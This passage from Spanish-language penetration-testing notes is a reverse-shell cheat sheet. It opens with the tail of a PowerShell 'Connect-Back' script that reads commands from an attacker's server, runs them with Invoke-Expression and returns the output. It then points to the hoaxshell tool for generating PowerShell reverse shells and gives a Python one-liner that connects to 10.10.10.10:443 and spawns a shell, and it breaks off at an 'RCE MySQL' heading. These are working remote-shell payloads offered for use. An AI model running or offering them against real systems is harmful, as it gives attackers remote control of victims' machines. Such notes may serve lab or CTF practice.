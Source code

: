 ```python
'$j2h.WriteLine(\\"[+] Escribe \'exit\' para cerrar la conexión.\\"); '
'$j2h.Flush(); '
'while ($true) { '
'$j2h.Write(\\"PS: \\"); '
'$j2h.Flush(); '
'$cmd = $d5g.ReadLine(); '
'if ($cmd -eq \\"exit\\") { break }; '
'try { '
'$output = Invoke-Expression ($cmd) 2>&1; '
'if ($output -is [System.Collections.IEnumerable]) { '
'$output = $output | Out-String }; '
'$output = $output -replace \\"`t\\", \\"    \\"; '
'$output = $output -replace \\" {2,}\\", \\" \\"; '
'if ($output) { '
'$j2h.WriteLine(\\"[*] Resultado del comando:\\"); '
'$j2h.WriteLine($output) } '
'} catch { '
'$j2h.WriteLine(\\"[!] Error ejecutando el comando: $_\\") } '
'$j2h.Flush() }; '
'$d5g.Close(); '
'$j2h.Close(); '
'$f1.Close() } '
'catch { Write-Host \\"[!] Error al conectar con el servidor del atacante: $_\\" -ForegroundColor Red } '
'}; '
'Connect-Back"')
```

## Hoaxshell 

```bash 
https://github.com/t3l3machus/hoaxshell     # Descargar la herramienta 
```

```bash 
❯ python3 hoaxshell.py -s IP         # Genera un comando en Powershell que contiene una revershell para Windows 

	# IP = Dirección IP de la máquina Kali 
```

## Revershell con Python3 

```bash 
❯ python3 ---version          # Verificar que este instalado python3 en la maquina victima 

❯ python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.10.10",443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'  # Revershell 
```

## RCE MySQL
